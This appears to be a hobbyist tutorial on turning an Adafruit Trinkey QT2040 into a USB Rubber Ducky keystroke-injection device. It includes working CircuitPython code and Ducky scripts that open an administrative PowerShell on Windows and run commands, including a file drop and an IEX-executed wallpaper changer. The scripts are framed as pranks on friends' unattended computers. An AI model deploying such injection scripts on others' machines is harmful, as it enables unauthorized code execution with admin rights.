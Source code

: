 Ever wanted to prank someone by changing their wallpaper or running a script when they walk away from their computer? It's a lot easier than you think! I will show you how to create your own USB Rubber Ducky for just \$10, a fraction of the cost of Hak5's \$70 Rubber Ducky!

We'll use the **Adafruit Trinkey QT2040 - RP2040** and CircuitPython to make a fully functional "keyboard injection" tool that can automate tasks, execute scripts, and more.

---
## Materials You'll Need

1. [Adafruit Trinkey QT2040 - RP2040](https://www.adafruit.com/product/5056)
2. A computer with USB ports.
3. Basic programming tools like a text editor.

---

## Step 1: Set Up CircuitPython

1. **Download CircuitPython**  
    Visit the [Adafruit CircuitPython page](https://circuitpython.org/board/adafruit_qt2040_trinkey/) and download the latest `.uf2` file for the QT2040 Trinkey.  (**9.2.1**)
    ![CircuitPython Download](image1.png)
    
2. **Put the Trinkey into Bootloader Mode**
    - Hold down the **BOOT/BOOTSEL** button (red in the image below).
![[buttons.jpg]]
    - While holding, press and release the **Reset** button (blue) and connect the Trinkey to your computer.
    - Continue holding the **BOOT/BOOTSEL** button until the `RPI-RP2` drive appears.  
        ![Bootloader Mode](image2.png)
3. **Copy the `.uf2` File**  
    Drag and drop the `.uf2` file onto the `RPI-RP2` drive. The device will restart, and you should now see a new drive labeled `CIRCUITPY`.  
    ![Drive Ready](image3.png)
    
4. **Prepare for Coding**
    - If you are missing a file named `code.py` on the `CIRCUITPY` drive, create it.
    - If you are missing a folder named `lib` inside the `CIRCUITPY` drive, create it.  
    - Create a folder named `scripts` inside the `CIRCUITPY` drive for our scripts.
	![[image.png]]

---

## Step 2: Safe Mode

By default, the USB will try to run code every time you plug it in to a device (duh!). While we work on it we don't want this, because it will also run anytime one of it's files changes. To bypass this, when you plug in the device click the `RESET` button twice and the device should flash yellow 3 times, signaling it is in Safe mode. If you need a refresher on which button that is, please look at Step 1 again.

---

## Step 3: Install Necessary Libraries

1. Download the **CircuitPython 9.x Library Bundle** from [Adafruit Libraries](https://circuitpython.org/libraries).
2. Extract the bundle and copy these files to your `CIRCUITPY` drive:
    - **`adafruit_hid`** folder (for USB HID functionality)
    - **`adafruit_ducky.mpy`** (for Rubber Ducky script support, place this in the `lib` folder).

---

## Step 4: Write our `code.py`

Open the `code.py` file and paste in the following Python code:

```python
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keyboard import Keyboard
import adafruit_ducky
import usb_hid
import time

time.sleep(1)

keyboard = Keyboard(usb_hid.devices)
keyboard_layout = KeyboardLayoutUS(keyboard)

duck = adafruit_ducky.Ducky("scripts/ducky.txt", keyboard, keyboard_layout)

while True:
    result = duck.loop()
    if not result:
        break
```

**Code Explanation**
We first import the libraries we installed when we copied over the files to `lib`. Then we have the USB sleep for a second to let it boot up. We create a `Keyboard` object and a `KeyboardLayoutUS` from the `Keyboard` object. We can then create a `Ducky` object from those two, and we point it to where our ducky script will be on the drive.

Now that we have our variables, we then loop through the ducky script line by line until the script ends!

---

## Step 5: Writing the Ducky Script

1. Create a new file called `ducky.txt` inside of our `scripts` folder on the `CIRCUITPY` drive and paste this in:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING echo "you've been hacked!" > ([Environment]::GetFolderPath("Desktop") + "\hacked.txt"); exit;
ENTER
```
2. This script opens an administrative PowerShell session on Windows 11 and creates a text file on the desktop named `hacked.txt`. This takes about ~5 seconds to execute on my laptop.
![Ducky Script Showcase](video1.mp4)

Try it out! Unplug your USB and plug it back in to see it work!

---

## Advanced Use Case: Changing the Wallpaper

Now that you've had a taste! Let's try doing some funny PowerShell stuff!

Find a funny image you want to make your friends wallpaper. I'm going to use this one:
![[wallpaper.jpg]]

Create a new folder on your `CIRCUITPY` called `resources` and put your image there! Make sure it's named `wallpaper.jpg`.
### Step 1: PowerShell Time!

Create a new text file in `scripts` called `iexscript.txt` on the `CIRCUITPY` drive and paste the following in:

```powershell
$WallpaperPath = ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\resources\wallpaper.jpg")

Add-Type @"
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@

[Wallpaper]::SystemParametersInfo(0x0014, 0, $WallpaperPath, 0x01 -bor 0x02)
exit
```

**Code Explanation**
This is a simple PowerShell script that we are going to call with our ducky script! It creates a C# object that contains code to replace a user's wallpaper and then calls it in PowerShell!
### Step 2: Back to `ducky.txt`!

Open your `ducky.txt` inside of your `scripts` folder in the `CIRCUITPY` drive, delete what you have and paste in the following:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING IEX (Get-Content ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\scripts\iexscript.txt") -Raw);
ENTER
```

This code will (again) open an administrative PowerShell, but this time it will use `IEX`. Essentially `IEX` will execute the statement after it, and the whole `Get-Content` thing basically finds our cool `iexscript.txt` file on our USB and give it to `IEX` and `IEX` runs it! **Make sure you have a `resources` folder and a `wallpaper.jpg` file inside of it or this script will not work!**

Try it out! Unplug your USB and plug it in to see it work!

![Wallpaper Showcase](video2.mp4)

---

Congratulations! You're now a master hacker and can prank your friends by changing their wallpaper!

---

Please reach out to me if you have any comments or feedback! Contact: [sstock2005.business@gmail.com](mailto:sstock2005.business@gmail.com)